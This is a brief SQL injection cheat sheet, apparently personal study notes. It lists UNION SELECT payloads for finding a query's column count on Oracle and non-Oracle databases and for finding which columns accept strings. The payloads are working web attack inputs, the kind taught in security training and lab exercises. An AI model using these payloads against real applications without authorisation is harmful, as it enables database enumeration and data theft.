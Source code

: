 #sqli 


## Find Number of Columns Non-Oracle DB
```sql
' UNION SELECT NULL--
```

```sql
' UNION SELECT NULL,NULL--
```

```sql
' UNION SELECT NULL,NULL,NULL--
```
…
→ While the number of null, doesn’t match the number of columns of the query, we will have an error.

## Find Number of Columns Oracle DB
```sql
' UNION SELECT NULL FROM DUAL-- 
```
...

## Find columns compatible with string
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
```
```sql
' UNION SELECT NULL,'a',NULL,NULL--
```
```sql
' UNION SELECT NULL,NULL,'a',NULL--
```
…
-> Return an error when not compatible with string. 